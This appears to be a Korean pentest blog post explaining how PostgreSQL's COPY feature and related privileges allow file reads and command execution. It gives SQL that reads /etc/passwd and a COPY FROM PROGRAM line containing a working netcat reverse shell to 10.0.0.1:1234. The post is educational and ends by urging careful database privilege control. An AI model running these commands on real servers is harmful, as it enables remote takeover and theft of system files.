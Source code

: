 ```yaml
---
title: postgresql with Command Execution
date: 2025-01-31
author: glasses96
categories: [pentest]
tags: [pentest]
pin: true
math: true
mermaid: true
---
```


> **postgresql 접근이 가능하면 RCE가 가능할 수도 있습니다.** 
{: .prompt-info }

<span style="color:#9999FF"></span>

## What is Postgresql
postgresql은 오픈소스 관계형 데이터베이스 관리 시스템(RDBMS)입니다.  
무료로 사용이 가능하며, 안정성과 확장성이 좋은 평가를 받고있다고 공식홈페이지에서 소개를 하고 있습니다.  

## How to Command Execution with postgresql
[COPY]("https://www.postgresql.org/docs/current/sql-copy.html") 기능을 사용하는 것입니다.  
아래의 권한을 부여 받았더라면 해당 권한을 이용하여 쿼리를 이용하여 서버에 파일을 읽거나 쓰기가 가능하며, 명령을 실행할 수 도 있습니다.  
postgresql은 설치 과정에서 `postgres` 라는 슈퍼유저 계정을 자동으로 생성하기 때문에 보안의 입장에서는 해당 계정에 대한 제어가 필요합니다.  

- superuser
- pg_read_server_files — 파일 읽기 허용
- pg_write_server_files — 파일에 쓰기 허용
- pg_execute_server_program — 운영 체제에서 직접 명령을 실행 가능

### COPY TO/FROM
해당 명령은 사용자가 운영 체제와 직접 상호 작용할 수 있도록 가능하여 공격자 입장에서 RCE 명령을 통해 DB계정으로 서버의 쉘 권한을 획득이 가능합니다.

예를 들어 서버의 passwd 파일을 읽고 싶다면 아래와 같은 명령어를 통해 파일 내용을 테이블에 추가할 수 있습니다.
1. CREATE TABLE read_files(output text);
2. COPY read_files FROM ('/etc/passwd');
3. SELECT * FROM read_files;

![DB](/assets/post/61/passwd.png)

### COPY TO/FROM PROGRAM to RCE
만약 아래와 같이 RCE 명령이 실행되면 postgres라는 권한의 쉘을 획득할 수 있습니다.  

1. CREATE TABLE shell(output text);
2. COPY shell FROM PROGRAM ‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f’;

## 마무리하며
postgresql의 COPY라는 기능을 이용하여 Command Execution이 가능한 것을 알아보았습니다.  
이를 통해 DB의 권한을 잘 부여해서 사용해야한다는 점을 명심해야겠습니다. 